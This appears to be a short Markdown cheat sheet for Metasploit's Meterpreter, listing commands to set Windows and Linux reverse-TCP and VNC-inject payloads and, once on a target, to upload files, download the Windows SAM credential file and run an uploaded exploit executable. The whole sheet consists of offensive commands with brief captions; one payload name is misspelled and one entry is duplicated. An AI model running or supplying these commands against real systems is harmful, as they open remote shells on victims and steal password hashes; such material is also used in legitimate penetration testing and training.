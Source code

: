 - 

# Meterpreter (Metasploit) ([cheet sheet](https://www.tunnelsup.com/metasploit-cheat-sheet/))

### **Windows reverse meterpreter payload**

```bash
set payload windows/meterpreter/reverse_tcp
```

- Windows reverse tcp payload

### **Windows VNC Meterpreter payload**

```bash
set payload windows/vncinject/reverse_tcpf
```

- Meterpreter Windows VNC Payload

```bash
set ViewOnly false
```

### **Linux Reverse Meterpreter payload**

```bash
set payload linux/meterpreter/reverse_tcp
```

- Meterpreter Linux Reverse Payload

### **Meterpreter Cheat Sheet**

```bash
upload file c:\\windows
```

- Meterpreter upload file to Windows target

```bash
download c:\\windows\\repair\\sam /tmp
```

- Meterpreter download file from Windows target

```bash
download c:\\windows\\repair\\sam /tmp
```

- Meterpreter download file from Windows target

```bash
execute -f c:\\windows\temp\exploit.exe
```

- Meterpreter run .exe on target – handy for executing uploaded exploits

